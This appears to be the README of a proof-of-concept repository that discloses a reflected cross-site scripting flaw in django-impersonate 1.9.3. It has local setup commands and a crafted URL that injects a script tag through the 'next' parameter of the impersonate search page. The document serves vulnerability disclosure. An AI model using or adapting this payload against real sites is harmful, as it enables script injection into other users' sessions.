 # Proof of concept for a XSS vulnerability in django-impersonate 1.9.3

You can read the full post [here](https://stsewd.dev/posts/xss-in-djang-impersonate-and-django-gravatar2/).

## Requirements

- Python
- [uv](https://docs.astral.sh/uv/getting-started/installation/)

## Set up

```bash
$ git clone https://github.com/stsewd/poc-xss-django-impersonate
$ cd poc-xss-django-impersonate
$ uv run manage.py migrate
# Create a user to log into the application.
$ uv run manage.py createsuperuser
$ uv run manage.py runserver
```

## Proof of concept

- Go to `http://127.0.0.1:8000/admin/login/`
- Log in with the user you created
- Go to `http://127.0.0.1:8000/impersonate/search/?next=%22%3E%3Cscript%3Ealert(document.domain)%3C/script%3E%3Cinput%20value=%22`
- A popup with the domain of the page should appear
